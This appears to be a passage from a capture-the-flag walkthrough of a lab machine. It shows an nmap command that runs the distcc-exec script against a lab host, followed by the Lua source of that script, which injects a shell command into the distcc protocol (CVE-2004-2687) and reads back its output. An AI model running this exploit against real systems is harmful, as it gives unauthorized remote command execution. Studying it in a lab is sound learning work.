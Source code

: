 - https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html

Test the script with the following:

```bash
sudo nmap -Pn -p 3632 10.10.10.3 --script="distcc-*" --script-args="distcc-exec.cmd='id'"
```

![distcc](./lame/distcc.png)

Swell! That is another exploit. The code for the `nmap` script has the following:

```
local socket = nmap.new_socket()
if ( not(socket:connect(host, port)) ) then
  return fail("Failed to connect to distcc server")
end

local cmds = {
  "DIST00000001",
  ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
  "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
  "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
  "DOTI00000001A\n",
}

for _, cmd in ipairs(cmds) do
  if ( not(socket:send(cmd)) ) then
    return fail("Failed to send data to distcc server")
  end
end

-- Command could have lots of output, need to cut it off somewhere. 4096 should be enough.
local status, data = socket:receive_buf(match.pattern_limit("DOTO00000000", 4096), false)

if ( status ) then
  local output = data:match("SOUT%w%w%w%w%w%w%w%w(.*)")
  if (output and #output > 0) then
    distcc_vuln.extra_info = stdnse.format_output(true, output)
    distcc_vuln.state = vulns.STATE.EXPLOIT
    return report:make_output(distcc_vuln)
  end
end
```
